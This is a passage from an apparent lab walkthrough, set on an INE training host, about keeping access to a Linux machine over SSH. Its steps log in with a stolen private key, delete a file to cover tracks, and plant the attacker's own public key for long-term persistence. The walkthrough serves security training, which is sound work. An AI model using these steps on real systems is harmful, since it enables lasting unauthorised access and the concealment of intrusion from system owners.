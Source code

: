 - **Explanation**: SSH requires the private key file to have restricted permissions (readable only by the owner) to be used for authentication. `chmod 400` sets the permissions accordingly.

---

#### 4. Establishing Persistence Using the SSH Key

Now that we have the private key, we can attempt to log in using it:

```bash
ssh student@demo.ine.local
```

After successfully logging in, we remove any trace of the previous login method:

```bash
rm wait
```

Exit the SSH session again:

```bash
exit
```

- **Explanation**: Removing files like `wait` could be a cleanup step to cover our tracks, ensuring that no obvious signs of compromise remain.

---

#### 5. Logging In Using the Stolen SSH Key

Now that the password-based login is no longer working, we can log in using the stolen private key:

```bash
ssh -i id_rsa student@demo.ine.local
```

- **Explanation**: The `-i` option allows us to specify the private key (`id_rsa`) we previously transferred. This enables password-less authentication for the `student` user on the target system.

---

#### 6. Setting Up Long-Term Persistence

Ideally, instead of stealing the user's private key, we can create our own SSH key pair for more controlled and persistent access:

1. **Generate an SSH Key Pair** on our attacking machine:

    ```bash
    ssh-keygen -t rsa -b 4096 -f ~/.ssh/new_key
    ```

   - **Explanation**: This generates a new 4096-bit RSA key pair on our local machine. The public key will be used to authenticate with the target system, and the private key will remain securely stored on our Kali Linux machine.

2. **Transfer the Public Key** to the target system:

    ```bash
    ssh-copy-id -i ~/.ssh/new_key.pub student@demo.ine.local
    ```
